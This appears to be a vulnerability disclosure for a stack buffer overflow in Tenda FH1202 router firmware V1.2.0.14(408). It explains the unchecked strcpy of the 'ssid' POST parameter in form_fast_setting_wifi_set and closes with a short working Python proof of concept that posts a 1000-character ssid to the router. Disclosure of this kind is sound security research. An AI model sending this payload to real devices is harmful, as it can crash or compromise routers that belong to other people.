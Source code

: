## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `src` variable receives the `ssid` parameter from a POST request and is later assigned to the `v7` and `v8` variable, which is fixed at 64 bytes. However, since the user can control the input of  `ssid`, the statement `strcpy(v7, src);`and `strcpy(v8, src);` can cause a buffer overflow. The user-provided  `ssid` can exceed the capacity of the `v7` and `v8` array, triggering this security vulnerability.

![image-20240319230233202](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230233202.png)

![image-20240319230222466](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230222466.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    'ssid': 'a' * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240319230350379](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230350379.png)
